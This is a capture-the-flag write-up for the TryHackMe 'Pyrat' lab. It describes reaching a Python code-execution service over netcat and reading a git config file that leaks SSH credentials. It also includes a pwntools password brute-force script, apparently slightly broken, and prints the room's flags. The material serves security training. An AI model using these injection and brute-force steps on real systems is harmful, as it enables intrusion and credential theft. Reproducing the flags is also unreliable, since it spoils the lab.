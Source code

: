 ## Pyrat - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/pyrat)

<i>**Pyrat receives a curious response from an HTTP server, which leads to a potential Python code execution vulnerability. 
With a cleverly crafted payload, it is possible to gain a shell on the machine. Delving into the directories, the author uncovers a well-known folder that provides a user with access to credentials. 
A subsequent exploration yields valuable insights into the application's older version. Exploring possible endpoints using a custom script, the user can discover a special endpoint and ingeniously expand their exploration by fuzzing passwords. 
The script unveils a password, ultimately granting access to the root.**</i>

**IP: 10.10.23.85**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Python, Enumeration <br>

**Tools Used**: Nmap, pwntools

[pwntools](https://github.com/Gallopsled/pwntools)<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20CUT.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Started with Nmap scan as always.

  ```
  nmap -A -p- 10.10.23.85

  PORT     STATE SERVICE  REASON
  22/tcp   open  ssh      syn-ack ttl 63
  8000/tcp open  http-alt syn-ack ttl 63
  OS details: Linux 4.15  
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  
  ssh -> Version: OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
  http-alt -> Version: SimpleHTTP/0.6 Python/3.11.2, also a server header
  | fingerprint-strings: 
  |   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
  |     source code string cannot contain null bytes
  |   FourOhFourRequest, LPDString, SIPOptions: 
  |     invalid syntax (<string>, line 1)
  |   GetRequest: 
  |     name 'GET' is not defined
  |   HTTPOptions, RTSPRequest: 
  |     name 'OPTIONS' is not defined
  |   Help: 
  |_    name 'HELP' is not defined
  ```
  
- OK, then I visited web app and got a message `Try a more basic connection!`. Right... netcat exists.

  ```
  sudo nc 10.10.23.85 8000 -v
  ```
  
- After connecting with netcat, you need to use Python syntax in order to move around.

  ```
  print("Hello") -> Hello
  print(os.listdir('/')) -> lists directories
  ```

---

## ⚙️ Gaining Access

- After exploring for a while, I found an email that mentions Git directory with old `pyrat` code and when I found that directory there were credentials for SSH.

  ```
  print(os.listdir('/opt/dev/.git')) 
  print(open('/opt/dev/.git/config', 'r').read())
  [core]
          repositoryformatversion = 0
          filemode = true
          bare = false
          logallrefupdates = true
  [user]
          name = Jose Mario
          email = josemlwdf@github.com
  
  [credential]
          helper = cache --timeout=3600
  
  [credential "https://github.com"]
          username = think
          password = _TH1NKINGPirate$_
  ```
  
- Awesome, use this credentials `think:_TH1NKINGPirate$_` to login with SSH.

---

## 🧍 User Privilege Escalation

- User flag is pretty straightforward: `996bdb1f619a68361417cabca5454705`

---

## 👑 Root Privilege Escalation

- For root flag, I was trying for a while to escalate from inside but unfortunately couldn't make it work, so I switched to writing scripts since this whole challenge is Python based.
  I wrote 3 different scripts, 1 for endpoint fuzzing, 1 for password fuzzing and 1 for shell access. I will post just 1 script here since you should practice your Python skills! (shell.py script is not needed for this challenge)
  
- When I ran script for endpoint enumeration, I found 3 endpoits: `shell: $`, `admin:`, `Password:`

  ```python3 end_fuzz.py```
  
- Then I moved to password fuzzing which gave me: `admin, password: abc123`

  ```
  python3 pw_fuzz.py

  from pwn import *

  host = "TARGET-IP"
  port = 8000
  password_file = "/full/path/to/rockyou.txt"
  
  #connect to target
  def connect_to_service():
      return (host, port)
  
  #brute forcing 
  def attempt_password(password):
      
      conn = connect_to_service()
      conn.sendline(b"admin") #send 'admin' as username
      conn.recvuntil(b"Password:")
      conn.sendline(password.encode()) #send password from list
  
      response = conn.recvline(timeout=2)
      response = conn.recvline(timeout=2)
  
      if b"Password:" in response:
          print(f"Password {password} failed.")
          conn.close()
          return False
  
      elif b"Welcome" in response or b"Success" in response:  
          print(f"Correct password: {password} ")
          conn.close()
          return True
  
      else:
          print(f"Unexpected response for password {password}. Response: {response}")
          conn.close()
          return False

  #loops through pw list
  def fuzz_passwords():
      with open(password_file, "r", encoding="utf-8") as f:
          for password in f:
              password = password.strip()
              if attempt_password(password):
                  print(f"Found working password: {password}")
                  break
  
  if __name__ == "__main__":
      fuzz_passwords()
  ```

- Alrighty, since I have admin credentials getting root flag is pretty simple now and there's 2 ways to do it, both options will work.

- First option: Connecting with netcat as admin

  ```
  sudo nc 10.10.23.85 8000 -v
  admin
  Password:
  abc123
  
  Welcome Admin!!! Type "shell" to begin
  pwd
  ls
  cat root.txt
  ba5ed03e9e74bb98054438480165e221
  ```

- Second option: create a script in Python that will spawn interactive shell as root

  ```
  python3 shell.py
  Server response after sending 'admin': Password:
  
  Sending password: abc123
  Server response for password 'abc123': Welcome Admin!!! Type "shell" to begin
  
  Sent 'shell' command. Waiting for shell response...
  Shell response: # 
  Enter command to execute:
  
  pwd
  ls
  cat root.txt
  ba5ed03e9e74bb98054438480165e221
  ```

- Here's the [documentation for pwntools](https://docs.pwntools.com/en/stable/), for installing them in Kali use `sudo apt install python3-pwntools`. Practice Practice Practice Practice Practice!

---

## 🏁 Flags

- **User Flag**: `996bdb1f619a68361417cabca5454705`
- **Root Flag**: `ba5ed03e9e74bb98054438480165e221`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `It was a different type of challenge then the ones I am used to, so it was kinda weird but fun!`

- What did I learn?
  `Sharpening my Python skill and practicing pwntools.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
